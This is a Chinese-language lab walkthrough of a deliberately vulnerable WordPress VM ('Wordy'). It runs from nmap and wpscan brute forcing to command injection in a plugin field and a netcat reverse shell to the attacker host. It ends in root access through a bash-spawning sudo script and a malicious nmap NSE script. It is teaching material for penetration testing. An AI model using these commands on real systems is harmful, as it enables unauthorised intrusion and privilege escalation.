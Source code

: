 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.14


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.14
```

![image-20220112092802044.png](./assets/1652256592650-4f579673-f9c7-4b7e-9158-3a4a9339c4bf.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

在浏览器访问HTTP服务发现是使用wordpress搭建的站点，在首页显示`欢迎来到 Wordy，它是 WordPress 插件和安全领域的世界领导者`。

![image-20220112093308388.png](./assets/1652256596173-e1a6d00d-8a99-46b1-8775-a3dfa06af1fb.png)

使用wpscan扫描

```
wpscan --url http://wordy/ -e u
```

![image-20220112094601481.png](./assets/1652256599929-df786d27-d790-4363-a22b-a4fdee10048d.png)

扫描出一些用户名

将扫描出来的用户名保存到username.txt中，把kali中的rockyou.txt.gz字典的k01内容提取出来作为密码字典进行爆破

```
zcat /usr/share/wordlists/rockyou.txt.gz | grep k01 > /root/password.txt
```

```
wpscan --url http://wordy/ -U username.txt -P password.txt
```

![image-20220112095747521.png](./assets/1652256604693-fe7bee53-bf22-4a14-9a2f-c1a39a1979d2.png)

使用爆破出来的账户登录后台http://wordy/wp-login.php

![image-20220112100034746.png](./assets/1652256608224-c5efb259-0e0e-49b0-87e9-d60ed1bfa780.png)

在前面的信息收集中在站点的主页面提到了workpress插件，查看插件发现存在命令执行漏洞

这个地方让我想到了DVWA靶场的命令执行漏洞

![image-20220112101939341.png](./assets/1652256611229-17f5ccc4-8712-4f8c-b7da-ffc09d11056c.png)


## 漏洞利用

存在命令执行漏洞那么我们就可以利用nc来反弹shell

创建监听

```
nc -vnlp 4444
```

执行反弹命令

```
192.168|nc 192.168.1.28 4444 -e /bin/bash
```

发现限制里输入的字符数，在前端进行修改

![image-20220112102257062.png](./assets/1652256615571-e0efff38-c95b-447d-bfb7-55fadf48ac78.png)

再次执行，成功反弹shell

![image-20220112102558566.png](./assets/1652256618552-bd7bcc55-ccd4-41b8-b9d5-6ca497afa95c.png)


## 提权

查看系统版本，没什么用

```
cat /proc/version
cat /etc/issue
```

![image-20220112103049949.png](./assets/1652256622515-219bee43-6aa6-42b7-b79e-0dd1022b8b42.png)

在/home目录下查看到四个用户，依次查看在mark目录下的stuff目录下发现things-to-do.txt文件，查看得到账户`graham - GSo7isUM1D4`

![image-20220112103926720.png](./assets/1652256625707-4def4a96-bd53-47a4-9509-1afc83e48999.png)

切换用户并查看graham所拥有的权限

![image-20220112104100137.png](./assets/1652256628296-b31868ea-6800-4965-9441-157bea7e654a.png)

可以看到我们可以以jens用户执行jens目录下的脚本

在backups.sh中写入`/bin/bash`并以jens用户来执行

![image-20220112105446816.png](./assets/1652256631513-79af65fc-ac15-4d5b-b899-e075e81879dd.png)

我们成功切换到jens用户

查看jens用户所拥有的权限

![image-20220112105600146.png](./assets/1652256634522-590fbe18-cbc9-4796-ac27-4f3bd8ae1732.png)

发现我们可以以root用户权限来执行nmap，那么我们可以创建一个nmap脚本文件，然后使用nmap来执行恶意脚本文件来进行提权。

创建恶意脚本文件

```
echo 'os.execute("/bin/bash")' > XMTX.nse
```

![image-20220112110056438.png](./assets/1652256638254-a8d87c4c-747e-4a30-88ab-ade97839775a.png)

使用nmap执行恶意脚本

```
sudo nmap --script=XMTX.nse
```

![image-20220112110135074.png](./assets/1652256642291-5dbf3932-5921-4f66-8474-556aacda2fc2.png)

成功得到root权限


## final-flag

在root根目录下找到final-flag

![image-20220112110259840.png](./assets/1652256646951-6a6bbccc-e678-48f1-98db-4b7874e9a2af.png)
